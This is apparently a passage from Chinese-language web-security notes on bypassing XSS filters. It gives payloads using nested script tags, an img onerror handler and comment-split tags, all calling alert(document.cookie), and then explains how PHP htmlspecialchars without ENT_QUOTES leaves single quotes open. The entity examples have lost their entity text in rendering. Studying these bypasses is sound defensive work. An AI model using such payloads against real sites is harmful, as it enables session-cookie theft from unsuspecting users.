 ```
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
```

编码绕过：

```
将payload进行html编码
```

使用没被过滤的payload：

```
如：<img  src=1  onerror=alert(document.cookie)> 
```

补一个没见过的注释干扰法：

```
<scri<!--test-->pt>alert(test)</scr<!--test-->ipt>
```



### xss之htmlspecialchars

htmlspecialchars():把预定义的字符转换为 HTML 实体

```
htmlspecialchars(string,flags,character-set,double_encode)
预定义的字符是：
& （和号）成为 &
" （双引号）成为 "
' （单引号）成为 '
< （小于）成为 <
> （大于）成为 >
strings:规定要转换的字符串(必选，其余皆为可选)

flags:
可用的引号类型:
ENT_COMPAT - 仅编码双引号(默认)。
ENT_QUOTES - 编码双引号和单引号。
ENT_NOQUOTES - 不编码任何引号。

无效的编码:
ENT_IGNORE - 忽略无效的编码，而不是让函数返回一个空的字符串。应尽量避免，因为这可能对安全性有影响。
ENT_SUBSTITUTE - 把无效的编码替代成一个指定的带有 Unicode 替代字符 U+FFFD（UTF-8）或者 &#FFFD; 的字符，而不是返回一个空的字符串。
ENT_DISALLOWED - 把指定文档类型中的无效代码点替代成 Unicode 替代字符 U+FFFD（UTF-8）或者 &#FFFD;。

character-set：规定了要使用的字符集的字符串；默认为utf-8

double_encode：规定了是否编码已存在的 HTML 实体；为bool型(TRUE/FALSE)

ps:$test = htmlspecialchars($name, ENT_QUOTES);
```

此处xss漏洞可能存在的原因是：htmlspecialchars()函数默认对双引号编码，开发者不对单引号进行过滤( flags != ENT_QUOTES )的话就可能导致xss发送
